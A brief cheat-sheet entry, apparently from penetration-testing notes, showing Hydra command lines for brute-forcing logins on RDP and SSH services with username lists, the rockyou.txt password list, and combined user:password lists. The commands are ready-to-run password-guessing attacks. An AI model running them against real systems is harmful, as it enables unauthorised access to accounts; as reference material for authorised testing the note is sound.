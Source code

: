 -- -
Network service brute forcing tool
### Usage
```bash
hydra -L <username list> -P <password list> <protocol>:<ip>
hydra -L user.lst -P rockyou.txt rdp://192.168.75.68

# use -t 4 for ssh
hydra -L user.list -P rockyou.txt ssh:192.168.75.68 -t 4

# Using a UserPass list i.e. user:password
hydra -C <user_pass.lst> <protocol>://<ip>
```
